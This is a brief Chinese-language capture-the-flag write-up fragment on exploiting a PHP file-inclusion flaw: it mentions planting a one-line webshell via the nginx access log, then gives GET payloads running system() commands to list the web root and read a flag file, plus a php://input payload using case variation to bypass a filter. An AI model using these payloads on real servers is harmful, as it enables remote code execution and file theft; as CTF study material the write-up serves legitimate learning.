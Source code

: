写入一句话木马

![image-20241121201547420](./assets/image-20241121201547420.png)

连webshell工具或者直接get传参

```
?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();

?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();
```

Or

input协议 大小写绕过

payload: 

```
POST /?file=Php://input HTTP/1.1

<?Php system("cat flag.php");?>
```
